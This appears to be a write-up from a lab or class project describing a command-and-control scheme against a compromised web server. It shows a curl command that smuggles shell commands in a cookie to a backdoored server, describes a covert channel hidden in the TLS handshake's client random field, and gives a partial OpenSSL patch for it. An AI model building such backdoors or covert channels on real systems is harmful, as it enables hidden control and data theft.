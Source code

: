 The first phase of our attack hides our executable code in one of the cookies sent by our command and control server (C2). This attack vector allows us to run code on our compromised server by making normal looking HTTP requests from our C2. We can generate our cookie inline in the curl command as follows:

```
curl -b "secret_message:echo You've been compromised :D" -d "user_id=1000" http://10.0.0.3:5000/home
```

As one can see, we have embedded some shell code in a field of the cookie we are passing in. Now this isn't going to do anything without a little help from our compromised server. This being the case, we have added some code in the web server to check whether or not there is a `secret_message` cookie. If it has one, the server will attempt to execute the code included in that field. The output will be put into a cookie and sent back to our C2 host. With this structure, the web server will continue to serve other clients as normal, but still can execute the arbitrary code bits that we send to it.

## TLS Handshake Attack

From the perspective of a router, our cookie attack looks just like normal web requests. However, if somebody was able to intercept a cookie we sent over the network and peek at the contents, they would clearly see that the cookie was malicious. This being the case, we wanted to come up with something a little bit harder to detect. We embed data into 32 byte client random field of the TLS handshake. Since this data is typically just random bytes, if we were to encrypt the data we're sending it would be theoretically indistinguishable from random bytes and therefore undetectable at the network level(this data is normally not ever seen by humans anyway). Fortunately, we have a compromised web server on which we could implant the public key of our C2 host giving us a two way encrypted channel. Theoretically, we could establish an encrypted 2 way channel through this field.

To implement our TLS handshake attack, we had to create a patch for the `OpenSSL` library on tag `OpenSSL_1_1_0d` used by our C2 server.

```
diff --git a/ssl/s3_lib.c b/ssl/s3_lib.c
index e94ee83717..dea248539c 100644
--- a/ssl/s3_lib.c
+++ b/ssl/s3_lib.c
@@ -48,6 +48,7 @@
  */
 
 #include <stdio.h>
+#include <string.h>
 #include <openssl/objects.h>
 #include "ssl_locl.h"
 #include <openssl/md5.h>
@@ -3925,21 +3926,26 @@ long ssl_get_algorithm2(SSL *s)
  */
 int ssl_fill_hello_random(SSL *s, int server, unsigned char *result, int len)
 {
-    int send_time = 0;
+    int send_time = 1;
+    FILE * pFile;
+    pFile = fopen("/user_id", "r");
+
+    int user_id = 0;
+
+    if (pFile!=NULL) {
+        fscanf(pFile, "%d", &user_id);
+        fclose(pFile);
+    }
 
     if (len < 4)
         return 0;
-    if (server)
-        send_time = (s->mode & SSL_MODE_SEND_SERVERHELLO_TIME) != 0;
```
